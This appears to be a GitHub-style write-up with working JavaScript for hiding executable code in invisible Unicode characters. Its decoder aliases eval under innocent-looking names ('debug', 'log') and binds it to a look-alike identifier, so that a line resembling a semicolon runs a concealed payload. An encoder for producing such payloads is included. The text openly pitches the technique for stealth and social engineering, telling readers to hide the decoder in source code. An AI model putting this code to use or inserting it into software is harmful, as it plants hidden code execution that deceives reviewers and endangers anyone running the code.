 


### A better way to execute arbitrary invisible code using a little social engineering.
Once the decoder script is added, the following allows for invisible code execution.
`ꓼ('')`

Add in the decoder script:


```javascript
/* Hide these variables somewhere up top in the code. The debug variable is basically eval. Log var provides a friendly name. */
var debug = String.apply.constructor;


/* Here is the core decoder functionality. Notice the friendly looking names like debug and log. */
var temp_debug = function(val){
  var debugTarget = []
  .map
  .call(val, x=>x.charCodeAt())
  .filter( x=> (x <= 8) || (x >= 11 && x <= 31) || ( x >= 127 && x <= 159) )
  .map(x=>{
    if (x > 126) x-= 95;
    if (x > 10) x-=2;
    return x;
  })
  .reduce((x,cur,i,v)=> i%2? x + String.fromCharCode((v[i-1] << 5) + cur) : x,'');
  debug( debugTarget )();
};


/* Somewhere near the bottom we name the function with a stealthy Unicode character. Remove global/window as needed. */
this.\u{A4FC} = temp_debug;
```



Now you can execute invisible code with what seems like nothing but a semicolon.  Non zero-width characters are filtered out for maximum stealth.



### How is this possible?
It's actually quite easy to save data with invisible, zero-width characters in Unicode. I've only included the invisible characters from the ASCII range of characters, but there are certainly many more in the 1.1(?) million Unicode characters from the many Astrals.

The harder and more critical work is the social engineering aspect. ECMAScript 6 has made a big push for internationalizing characters, and as such now permits unicode in variable names using [Unicode Code Point Escape Sequences](https://mathiasbynens.be/notes/javascript-escapes).

Any Unicode character that has been designated with the property of [ID_START](https://codepoints.net/search?IDS=1) can be used at the beginning of a variable name.  Any character with the designated property of [ID_CONTINUE](https://codepoints.net/search?IDC=1)

Here are some valid variable names.
 - `ꓸ`   `\u{A4F8}`
 - `ꓹ`   `\u{A4F9}`
 - `ꓼ`   `\u{A4FC}`
 - `ꓽ`   `\u{A4FD}`




```javascript
var encode = function(payload){

  var convert2Ascii = function(text){
    return Array
    .from(text)
    .map(function(char){
      if ( /[^\x00-\x7F]/g.test(char) ){
        return char
        .split('')
        .map(x=>`\\u{${ (x.charCodeAt()).toString(16) }}`)
        .join('');
      }
      return char;
    });
  };

  var mapping = function(char){
    if (char > 8)  char+= 2;
    if (char > 31) char+= 95;
    return char;
  };

  var mapCharacters = function(text){
    return text
    .split('')
    .map(x=>x.charCodeAt())
    .map(x=>{
      var low  = mapping( x & 0x1F);
      var high = mapping( x >> 5  );
      return String.fromCharCode(high, low);
    })
    .join('');
  };

  return mapCharacters( convert2Ascii(payload).join('') );
};
```



### Limitations
Many font packages do not support the characters you wish to use, representing characters as boxes. That'll be a giveaway.  Try and stick to the lower numbered characters.


### More Reading
You can learn more about astral code points on Mathias Bynen's [blog](https://mathiasbynens.be/notes/javascript-unicode)
